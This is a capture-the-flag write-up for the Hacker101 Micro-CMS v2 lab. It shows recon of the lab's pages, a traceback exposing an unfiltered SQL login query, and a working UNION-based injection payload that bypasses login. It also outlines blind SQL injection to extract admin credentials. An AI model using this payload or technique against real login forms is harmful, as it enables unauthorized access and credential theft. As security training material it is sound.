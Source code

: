 # Hacker101: Micro-CMS v2

## By Infinity




## Recon:




### /

<details>
<summary>Headers</summary>
```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>
```html

<!doctype html>
<html>
	<head>
		<title>Micro-CMS</title>
	</head>
	<body>
		
		<ul>
<li><a href="page/1">Micro-CMS Changelog</a></li>
<li><a href="page/2">Markdown Test</a></li>
		</ul>
		<a href="page/create">Create a new page</a>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Micro-CMS</title>
	</head>
	<body>
		
		<ul>
<li><a href="page/1">Micro-CMS Changelog</a></li>
<li><a href="page/2">Markdown Test</a></li>
		</ul>
		<a href="page/create">Create a new page</a>
	</body>
</html>

</details>

### /page/1

<details>
<summary>Headers</summary>
```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>
```html

<!doctype html>
<html>
	<head>
		<title>Micro-CMS Changelog</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/1">Edit this page</a>
		<h1>Micro-CMS Changelog</h1>
<h2>Version 2</h2>
<p>This version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.</p>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Micro-CMS Changelog</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/1">Edit this page</a>
		<h1>Micro-CMS Changelog</h1>
<h2>Version 2</h2>
<p>This version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.</p>
	</body>
</html>

</details>

### /page/2

<details>
<summary>Headers</summary>
```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>
```html

<!doctype html>
<html>
	<head>
		<title>Markdown Test</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/2">Edit this page</a>
		<h1>Markdown Test</h1>
<p>Just testing some markdown functionality.</p>
<p><img alt="adorable kitten" src="https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/" /></p>
<p><button>Some button</button></p>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Markdown Test</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/2">Edit this page</a>
		<h1>Markdown Test</h1>
<p>Just testing some markdown functionality.</p>
<p><img alt="adorable kitten" src="https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/" /></p>
<p><button>Some button</button></p>
	</body>
</html>

</details>

### /page/create

<details>
<summary>Headers</summary>
```html
Date
Content-Type
Content-Length
Connection
Server
Location
```
</details>
<details>
<summary>Response</summary>
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.
```
</details>
<details>
<summary>Rendered</summary>

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.
</details>

### /login

<details>
<summary>Headers</summary>
```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>
```html

<!doctype html>
<html>
	<head>
		<title>Log in</title>
	</head>
	<body>
		<a href="home">&lt;-- Go Home</a>
		<h1>Log In</h1>
		<form method="POST">
			Username: <input type="text" name="username"><br>
			Password: <input type="password" name="password"><br>
			<input type="submit" value="Log In">
			<div style="color: red"></div>
		</form>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Log in</title>
	</head>
	<body>
		<a href="home">&lt;-- Go Home</a>
		<h1>Log In</h1>
		<form method="POST">
			Username: <input type="text" name="username"><br>
			Password: <input type="password" name="password"><br>
			<input type="submit" value="Log In">
			<div style="color: red"></div>
		</form>
	</body>
</html>

</details>

## Notes:
- Login function => sql injection.
- Modifying password does not work, but modifying username throws error:
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test''' at line 1")

```
- As you can see, the username is being put into an unfiltered sql query. 
- Using this: ```username=test'+UNION+SELECT+'a'--+&password=a``` yields access to normal account. 
- Getting admin password is possible via blind sqli, via differing results. We can set up a sql query to check a conditional, where wrong user = false and wrong password = true. We can thus extract the admin username and password. 
- We can also just directly edit pages by posting to the /page/edit/2 endpoint.

## Flags
1. In a private page accesed via union attack
2. In a response to posting to the /page/edit/whatever endpoint
3. After entering the admin username and password acquired via blind sqli
